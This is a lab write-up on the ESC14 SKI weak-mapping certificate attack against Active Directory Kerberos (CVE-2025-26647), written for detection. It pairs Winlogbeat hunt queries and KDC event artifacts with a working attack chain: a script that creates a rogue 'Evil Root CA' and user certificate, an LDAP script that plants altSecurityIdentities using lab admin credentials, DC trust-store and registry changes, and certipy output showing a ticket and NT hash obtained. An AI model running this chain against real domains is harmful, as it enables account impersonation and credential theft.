


# ESC14 SKI


# Sources
https://virot.eu/cve-2025-26647-ski-is-weak-mapping/


# Hunts

## Winlogbeat

### Search for EventID 45 to detect NTAuth policy bypass

```jsx
winlog.channel:"System" 
AND winlog.provider_name:"Microsoft-Windows-Kerberos-Key-Distribution-Center"
AND winlog.event_id:(45) 
```

### Search for TGT requests  with error

```jsx
winlog.event_id:(4768) 
AND winlog.event_data.CertSerialNumber:* 
AND winlog.event_data.Status:("0x3e")
```

### Auth not your ADCS

```jsx
winlog.event_id:(4768)
AND winlog.event_data.CertSerialNumber:*
AND NOT winlog.event_data.CertIssuerName:"_your_adcs_"
```

# Commands

## Short version

```jsx

#Preparation
#Creates CA, prepares usr.pfx, user.crt, ca.crt files
bash X509SKI_prep.sh
#Start WEB server then in folder where evilca.crl to allow DC download CRL
python3 -m http.server 80

#Script user_prep.py creates user test_user and writes  altSecurityIdentities with SKI "X509:<SKI>1234567890ABCDEF0123456789ABCDEF12345678"
python user_prep.py

#On DC
#Copy ca.crt to Domain Controller, then:
certutil -addstore -f Root C:\Users\administrator\Desktop\ca.crt
#Set AllowNtAuthPolicyBypas to '1'
New-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' -Name 'AllowNtAuthPolicyBypas' -PropertyType DWORD -Value 1 -Force

#Attack
сertipy auth -pfx user.pfx -dc-ip 192.168.56.12 -domain "essos.local" -username "test_user"
```

## Preparation

### Script X509SKI_prep.sh creates CA, prepares usr.pfx, user.crt, ca.crt files

```jsx
#!/bin/bash
set -e

CA_DIR="./demoCA"
CA_KEY="$CA_DIR/private/cakey.pem"
CA_CERT="$CA_DIR/cacert.pem"
OPENSSL_CNF="openssl_ca.cnf"

# CRL URL (use argument or default)
CRL_URL="${1:-http://192.168.56.200/evilca.crl}"

# 0. Create openssl_ca.cnf
cat > $OPENSSL_CNF <<EOF
[ ca ]
default_ca = CA_default

[ CA_default ]
dir             = ./demoCA
database        = \$dir/index.txt
new_certs_dir   = \$dir/newcerts
certificate     = \$dir/cacert.pem
private_key     = \$dir/private/cakey.pem
serial          = \$dir/serial
crlnumber       = \$dir/crlnumber
default_md      = sha256
default_days    = 365
default_crl_days= 30
x509_extensions = usr_cert
policy          = policy_any

[ policy_any ]
countryName             = optional
stateOrProvinceName     = optional
localityName            = optional
organizationName        = optional
organizationalUnitName  = optional
commonName              = supplied
emailAddress            = optional

[ usr_cert ]
basicConstraints = CA:FALSE
keyUsage = digitalSignature, keyEncipherment
extendedKeyUsage = clientAuth, 1.3.6.1.5.2.3.4
crlDistributionPoints = URI:$CRL_URL
subjectKeyIdentifier = 12:34:56:78:90:AB:CD:EF:01:23:45:67:89:AB:CD:EF:12:34:56:78
EOF

# 1. Prepare directory structure
mkdir -p $CA_DIR/newcerts $CA_DIR/private
touch $CA_DIR/index.txt
echo 1000 > $CA_DIR/serial
echo 1000 > $CA_DIR/crlnumber

# 2. Generate CA (key + certificate)
openssl genrsa -out $CA_KEY 2048
openssl req -x509 -new -key $CA_KEY -sha256 -days 3650 \
  -out $CA_CERT \
  -subj "/C=RU/ST=Lab/L=Test/O=EvilCA/OU=Security/CN=Evil Root CA"

# 2b. Export CA certificate as ca.crt (for distribution)
cp $CA_CERT ca.crt

# 3. User: key + CSR
openssl genrsa -out user.key 2048
openssl req -new -key user.key -out user.csr \
  -subj "/C=RU/ST=Lab/L=Test/O=EvilUser/OU=Security/CN=labUser"

# 4. Sign the user certificate
openssl ca -batch -config $OPENSSL_CNF -in user.csr -out user.crt \
  -extensions usr_cert -days 365 -md sha256

# 5. Export to PFX (password: 1234)
openssl pkcs12 -export -out user.pfx -inkey user.key -in user.crt \
  -certfile $CA_CERT 

# 6. Generate CRL
openssl ca -config $OPENSSL_CNF -gencrl -out evilca.crl

echo
echo "✅ CA and user certificate created."
echo "📂 CA certificate:   $CA_CERT"
echo "📂 CA export:        ca.crt"
echo "📂 User certificate: user.crt"
echo "📂 User key:         user.key"
echo "📂 User PKCS#12:     user.pfx (use empty)"
echo "📂 CRL:              evilca.crl"
echo
echo "To revoke the certificate:"
echo "  openssl ca -config $OPENSSL_CNF -revoke user.crt"
echo "  openssl ca -config $OPENSSL_CNF -gencrl -out evilca.crl"

```

```jsx
bash X509SKI_prep.sh
or
bash X509SKI_prep.sh http://_your_ip_/evilca.crl
```

### Start WEB-server in folder where evilca.crl to allow DC to download CRL

```jsx
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.56.12 - - [21/Aug/2025 09:05:18] "GET /evilca.crl HTTP/1.1" 200 -
```


### Script user_prep.py creates user test_user and writes  altSecurityIdentities with SKI "X509:<SKI>1234567890ABCDEF0123456789ABCDEF12345678"

```jsx
import ldap3
from ldap3 import MODIFY_REPLACE, NTLM, ALL

# --- Configuration ---
server = ldap3.Server("192.168.56.12", use_ssl=True, port=636, get_info=ALL)  # LDAPS
domain = "essos.local"
admin_username = "essos.local\\daenerys.targaryen"
admin_password = "BurnThemAll!"

# DN of the container where the user will be created
ou_dn = "CN=Users,DC=essos,DC=local"

# New user
user_name = "test_user"
user_dn = f"CN={user_name},{ou_dn}"
user_principal = f"{user_name}@{domain}"

# Password (must be in quotes and UTF-16LE encoded)
new_password = '"Passw0rd!"'.encode("utf-16-le")

# Value for altSecurityIdentities
alt_sec_id = "X509:<SKI>1234567890ABCDEF0123456789ABCDEF12345678"

# --- LDAP connection ---
conn = ldap3.Connection(
    server,
    user=admin_username,
    password=admin_password,
    authentication=NTLM,
    auto_bind=True
)

print("[+] LDAP connection successful")

# --- Create user ---
success = conn.add(
    dn=user_dn,
    object_class=["top", "person", "organizationalPerson", "user"],
    attributes={
        "cn": user_name,
        "sAMAccountName": user_name,
        "userPrincipalName": user_principal,
        "displayName": user_name,
        "unicodePwd": new_password,
        "userAccountControl": 0x200  # NORMAL_ACCOUNT
    }
)

if success:
    print(f"[+] User {user_name} created with password Passw0rd!")
else:
    print("[-] User creation error:", conn.result)

# --- Set altSecurityIdentities ---
success = conn.modify(
    dn=user_dn,
    changes={
        "altSecurityIdentities": [(MODIFY_REPLACE, [alt_sec_id])]
    }
)

if success:
    print(f"[+] altSecurityIdentities set: {alt_sec_id}")
else:
    print("[-] Attribute modification error:", conn.result)

conn.unbind()

```

```jsx
python user_prep.py
```




### Copy ca.crt to Domain Controller, then execute:

```jsx
certutil -addstore -f Root C:\Users\administrator\Desktop\ca.crt
```



## Attack

### Authentication

```jsx

certipy auth -pfx user.pfx -dc-ip 192.168.56.12 -domain "essos.local" -username "test_user" 
/opt/certipy-merged/.venv/lib/python3.13/site-packages/certipy/version.py:1: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: test_user@essos.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'test_user.ccache'
[*] Trying to retrieve NT hash for 'test_user'
[*] Got hash for 'test_user@essos.local': aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889

```

# Artifacts

## AllowNtAuthPolicyBypass = 0 or 1

### Event ID 45. The Key Distribution Center (KDC) encountered a client certificate that was valid but did not chain to a root in the NTAuth store

```jsx
The Key Distribution Center (KDC) encountered a client certificate that was valid but did not chain to a root in the NTAuth store. Support for certificates that do not chain to the NTAuth store is deprecated. See https://go.microsoft.com/fwlink/?linkid=2300705 to learn more.

  User: test_user
  Certificate Subject: @@@CN=labUser, OU=Security, O=EvilUser, L=Test, S=Lab, C=RU
  Certificate Issuer: Evil Root CA
  Certificate Serial Number: 1000
  Certificate Thumbprint: 0CCAB37E10EB99CC7B7DAD43E137AB566755D010
```

```jsx

- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Kerberos-Key-Distribution-Center" Guid="{3FD9DA1A-5A54-46C5-9A26-9BD7C0685056}" EventSourceName="KDC" /> 
  <EventID Qualifiers="32768">45</EventID> 
  <Version>0</Version> 
  <Level>3</Level> 
  <Task>0</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x80000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-20T09:51:37.420848800Z" /> 
  <EventRecordID>11383</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="0" ThreadID="0" /> 
  <Channel>System</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="AccountName">test_user</Data> 
  <Data Name="Subject">@@@CN=labUser, OU=Security, O=EvilUser, L=Test, S=Lab, C=RU</Data> 
  <Data Name="Issuer">Evil Root CA</Data> 
  <Data Name="SerialNumber">1000</Data> 
  <Data Name="Thumbprint">0CCAB37E10EB99CC7B7DAD43E137AB566755D010</Data> 
  <Binary /> 
  </EventData>
  </Event>

```

### Event ID 21. The client certificate for the user ESSOS\test_user is not valid, and resulted in a failed smartcard logon

```jsx
The client certificate for the user ESSOS\test_user is not valid, and resulted in a failed smartcard logon. Please contact the user for more information about the certificate they're attempting to use for smartcard logon. The chain status was : A certification chain processed correctly, but one of the CA certificates is not trusted by the policy provider.

```

```jsx

- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Kerberos-Key-Distribution-Center" Guid="{3FD9DA1A-5A54-46C5-9A26-9BD7C0685056}" EventSourceName="KDC" /> 
  <EventID Qualifiers="32768">21</EventID> 
  <Version>0</Version> 
  <Level>3</Level> 
  <Task>0</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x80000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-20T09:51:09.936537100Z" /> 
  <EventRecordID>11377</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="0" ThreadID="0" /> 
  <Channel>System</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="Domain">ESSOS</Data> 
  <Data Name="Username">test_user</Data> 
  <Data Name="Status">A certification chain processed correctly, but one of the CA certificates is not trusted by the policy provider.</Data> 
  <Binary>1800000012010B800000000001000000</Binary> 
  </EventData>
  </Event>
```

## AllowNtAuthPolicyBypass =2

### **4768.** Failure TGT request with Result Code: 0x3E

```jsx
A Kerberos authentication ticket (TGT) was requested.

Account Information:
	Account Name:		test_user
	Supplied Realm Name:	ESSOS.LOCAL
	User ID:			NULL SID
	MSDS-SupportedEncryptionTypes:	-
	Available Keys:	-

Service Information:
	Service Name:		krbtgt/ESSOS.LOCAL
	Service ID:		NULL SID
	MSDS-SupportedEncryptionTypes:	-
	Available Keys:	-

Domain Controller Information:
	MSDS-SupportedEncryptionTypes:	-
	Available Keys:	-

Network Information:
	Client Address:		::ffff:192.168.56.200
	Client Port:		51776
	Advertized Etypes:	-

Additional Information:
	Ticket Options:		0x40800010
	Result Code:		0x3E
	Ticket Encryption Type:	0xFFFFFFFF
	Session Encryption Type:	0x2D
	Pre-Authentication Type:	-
	Pre-Authentication EncryptionType:	0x2D

Certificate Information:
	Certificate Issuer Name:		Evil Root CA
	Certificate Serial Number:	1000
	Certificate Thumbprint:		0CCAB37E10EB99CC7B7DAD43E137AB566755D010

Ticket information
	Response ticket hash:		-
Certificate information is only provided if a certificate was used for pre-authentication.

Pre-authentication types, ticket options, encryption types and result codes are defined in RFC 4120.
```

```jsx
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-A5BA-3E3B0328C30D}" /> 
  <EventID>4768</EventID> 
  <Version>2</Version> 
  <Level>0</Level> 
  <Task>14339</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x8010000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-20T10:11:41.713586000Z" /> 
  <EventRecordID>175188</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="684" ThreadID="2380" /> 
  <Channel>Security</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
- <EventData>
  <Data Name="TargetUserName">test_user</Data> 
  <Data Name="TargetDomainName">ESSOS.LOCAL</Data> 
  <Data Name="TargetSid">S-1-0-0</Data> 
  <Data Name="ServiceName">krbtgt/ESSOS.LOCAL</Data> 
  <Data Name="ServiceSid">S-1-0-0</Data> 
  <Data Name="TicketOptions">0x40800010</Data> 
  <Data Name="Status">0x3e</Data> 
  <Data Name="TicketEncryptionType">0xffffffff</Data> 
  <Data Name="PreAuthType">-</Data> 
  <Data Name="IpAddress">::ffff:192.168.56.23</Data> 
  <Data Name="IpPort">51776</Data> 
  <Data Name="CertIssuerName">Evil Root CA</Data> 
  <Data Name="CertSerialNumber">1000</Data> 
  <Data Name="CertThumbprint">0CCAB37E10EB99CC7B7DAD43E137AB566755D010</Data> 
  <Data Name="ResponseTicket">-</Data> 
  <Data Name="AccountSupportedEncryptionTypes">-</Data> 
  <Data Name="AccountAvailableKeys">-</Data> 
  <Data Name="ServiceSupportedEncryptionTypes">-</Data> 
  <Data Name="ServiceAvailableKeys">-</Data> 
  <Data Name="DCSupportedEncryptionTypes">-</Data> 
  <Data Name="DCAvailableKeys">-</Data> 
  <Data Name="ClientAdvertizedEncryptionTypes">-</Data> 
  <Data Name="SessionKeyEncryptionType">0x2d</Data> 
  <Data Name="PreAuthEncryptionType">0x2d</Data> 
  </EventData>
  </Event>
```

## Not updated Windows:

### Event ID 21. The client certificate for the user ESSOS\test_user is not valid, and resulted in a failed smartcard logon

This event indicates an attempt was made to use smartcard logon, but the KDC is unable to use the PKINIT protocol because it is missing a suitable certificate.

```jsx
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
- <System>
  <Provider Name="Microsoft-Windows-Kerberos-Key-Distribution-Center" Guid="{3FD9DA1A-5A54-46C5-9A26-9BD7C0685056}" EventSourceName="KDC" /> 
  <EventID Qualifiers="32768">19</EventID> 
  <Version>0</Version> 
  <Level>2</Level> 
  <Task>0</Task> 
  <Opcode>0</Opcode> 
  <Keywords>0x80000000000000</Keywords> 
  <TimeCreated SystemTime="2025-08-20T10:53:47.241774000Z" /> 
  <EventRecordID>6750</EventRecordID> 
  <Correlation /> 
  <Execution ProcessID="0" ThreadID="0" /> 
  <Channel>System</Channel> 
  <Computer>meereen.essos.local</Computer> 
  <Security /> 
  </System>
  <EventData /> 
  </Event>
```